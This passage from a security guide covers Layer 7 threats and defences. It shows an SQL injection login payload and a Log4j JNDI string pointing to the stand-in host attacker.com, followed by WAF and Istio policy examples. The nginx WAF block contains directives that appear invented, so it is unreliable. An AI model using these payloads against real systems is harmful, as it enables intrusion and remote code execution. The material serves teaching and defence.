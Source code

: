 ## Layer-by-Layer Security Analysis

### Layer 7 - Application Layer

#### Modern Threats and Attack Vectors
1. **API Security Threats**
   ```http
   # API abuse example
   POST /api/v1/authenticate HTTP/1.1
   Content-Type: application/json
   
   {"username": "' OR '1'='1", "password": "anything"}
   ```

2. **Modern Web Application Attacks**
   ```javascript
   // Log4j vulnerability exploitation example
   ${jndi:ldap://attacker.com/exploit}
   ```

3. **Recent Attack Cases**
   - 2023 MOVEit Transfer zero-day vulnerability exploitation
   - 2024 Citrix NetScaler ADC remote code execution

#### Defense Strategies
1. **Modern WAF Implementation**
   ```nginx
   # Next-generation WAF configuration with ML-based detection
   location / {
       modsecurity on;
       modsecurity_rules_file /etc/nginx/modsecurity/main.conf;
       
       # AI/ML-based anomaly detection
       anomaly_detection on;
       learning_mode off;
       threshold 75;
   }
   ```

2. **Zero Trust Application Access**

   ```yaml
   # Modern identity-aware proxy example
   apiVersion: security.istio.io/v1beta1
   kind: AuthorizationPolicy
   metadata:
     name: zero-trust-policy
   spec:
     selector:
       matchLabels:
         app: secure-app
     rules:
     - from:
       - source:
           requestPrincipals: ["*"]
       to:
       - operation:
           methods: ["GET"]
           paths: ["/api/public/*"]
   ```
